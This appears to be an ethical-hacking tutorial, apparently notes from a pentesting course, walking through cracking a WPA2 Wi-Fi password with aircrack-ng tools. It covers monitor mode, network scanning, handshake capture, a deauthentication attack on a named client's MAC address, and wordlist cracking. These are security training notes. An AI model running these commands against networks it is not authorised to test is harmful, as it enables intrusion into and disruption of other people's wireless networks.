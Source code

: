 Tutorial on hacking wireless access points to include capture handshakes and crackings .cap files.

----------

Legal Usage: The information provided by execute@will is to be used for educational purposes only. The website creator and/or editor is in no way responsible for any misuse of the information provided. All the information on this website is meant to help the reader develop penetration testing and vulnerability aptitude to prevent attacks discussed. In no way should you use the information to cause any kind of damage directly or indirectly. Information provided by this website is to be regarded from an “ethical hacker” standpoint. Only preform testing on systems you OWN and/or have expressed written permission. Use information at your own risk.

By continued reading, you acknowledge the aforementioned user risks/responsibilities.

----------

Based off TheCyberMentor amazing Udemy course available at [https://www.udemy.com/course/practical-ethical-hacking/](https://www.udemy.com/course/practical-ethical-hacking/)

# Wifi Pentesting Overview
**Types Wireless Security:**
WPA2 Pre Share Key (PSK) - “Everyday” seen security across wireless networks
WPA2 Enterprise - Utilize Radius Servers/Credentials (advanced environments)

**Evaluating Networks:**

- Evaluating strength of PSK
- Reviewing nearby network
- Assessing guest networks
- Checking network access

Tools used for Assessments:

- Wireless Cards - Alfa AWUD036NH
- Router
- Laptop

**The Process / Methodology**

![](https://paper-attachments.dropbox.com/s_0ECD1307AB8B03CAC9E54C16CBE9A470FE8843DA70DE01018AE4AC666B1B929A_1578149236145_image.png)



# Attacking Wireless Networks


- Relys on poor password on wireless networks
- After a WPA hand shake

## Setup Wireless Card on Kali
    iwconfig

![](https://paper-attachments.dropbox.com/s_0ECD1307AB8B03CAC9E54C16CBE9A470FE8843DA70DE01018AE4AC666B1B929A_1578149482736_image.png)


 
 ## Place wireless card into monitor mode

- kill process that would interfere with the wireless network
    airmong-ng check kill

![](https://paper-attachments.dropbox.com/s_0ECD1307AB8B03CAC9E54C16CBE9A470FE8843DA70DE01018AE4AC666B1B929A_1578149575514_image.png)



## Start monitor mode

    airmon-ng start wlan0

![](https://paper-attachments.dropbox.com/s_0ECD1307AB8B03CAC9E54C16CBE9A470FE8843DA70DE01018AE4AC666B1B929A_1578149735588_image.png)


changing modes from `wlan0`  to `[phy1]wlan0mon`.

confirm with `iwconfig`

![](https://paper-attachments.dropbox.com/s_0ECD1307AB8B03CAC9E54C16CBE9A470FE8843DA70DE01018AE4AC666B1B929A_1578149801362_image.png)



## Searching nearby area of wifi networks

    airodump-ng wlan0mon

![](https://paper-attachments.dropbox.com/s_0ECD1307AB8B03CAC9E54C16CBE9A470FE8843DA70DE01018AE4AC666B1B929A_1578150001126_image.png)


*devices are populating in the list.*


- The lower the PWR is the closer you are to the device

`ctrl+c` as we identifed the TP-Link to attack:

![](https://paper-attachments.dropbox.com/s_0ECD1307AB8B03CAC9E54C16CBE9A470FE8843DA70DE01018AE4AC666B1B929A_1578150088860_image.png)


## Narrow the wifi network down via airodump-ng

    airodump-ng -c 6 --bssid 50:C7:BF:8A:00:73 -w capture wlan0mon

-w = name of file

![](https://paper-attachments.dropbox.com/s_0ECD1307AB8B03CAC9E54C16CBE9A470FE8843DA70DE01018AE4AC666B1B929A_1578150218295_image.png)


if this was a larger network we would see more devices. 

## Performing a DEAUTH attack

- within a new window
- might need to run the attack several times to get the deauth
    aireplay-ng -0 1 -a 50:C7:BF:8A:00:73 -c 3C:F0:11:22:DB:E3 wlan0mon

-a = Wifi mac address
-c = Station (client)

![](https://paper-attachments.dropbox.com/s_0ECD1307AB8B03CAC9E54C16CBE9A470FE8843DA70DE01018AE4AC666B1B929A_1578150477336_image.png)


Beacon rate began to increase which then led to the “WPA handshake”

## Viewing captured data 

![](https://paper-attachments.dropbox.com/s_0ECD1307AB8B03CAC9E54C16CBE9A470FE8843DA70DE01018AE4AC666B1B929A_1578150613088_image.png)


## Cracking the captured data

    aircrack-ng -w wordlist.txt -b 50:C7:BF:8A:00:73 capture-02.cap

-b = MAC address of target router

![](https://paper-attachments.dropbox.com/s_0ECD1307AB8B03CAC9E54C16CBE9A470FE8843DA70DE01018AE4AC666B1B929A_1578150767089_image.png)


*Passphrase was discovered quite quickly in this case.*

